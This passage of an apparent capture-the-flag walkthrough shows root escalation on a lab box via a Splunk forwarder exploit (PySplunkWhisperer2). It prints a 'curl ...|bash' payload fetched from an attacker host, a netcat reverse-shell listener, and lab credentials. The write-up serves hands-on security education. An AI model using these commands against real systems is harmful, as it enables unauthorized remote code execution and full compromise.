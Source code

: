 The article refers to [PySplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2), which is a POC for this vulnerability.

Let us run the exploit-code and get a shell on the server as root.

```bash
root@darkness:~/SplunkWhisperer2/PySplunkWhisperer2# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.5 --username shaun --password Guitar123 --payload "curl 10.10.14.5/s.sh|bash" 
```

The exploit uploads the malicious app and executes our payload. 

```bash
root@darkness:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.209 - - [13/Jan/2021 15:08:04] "GET /s.sh HTTP/1.1" 200 -
```

We successfully get a request on our http-server getting the bash payload. 

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:53242.
bash: cannot set terminal process group (1137): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/#
```

We successfully get a shell as root and can now read root.txt.

```bash
root@doctor:/root# cat root.txt 
421cd***************************
```

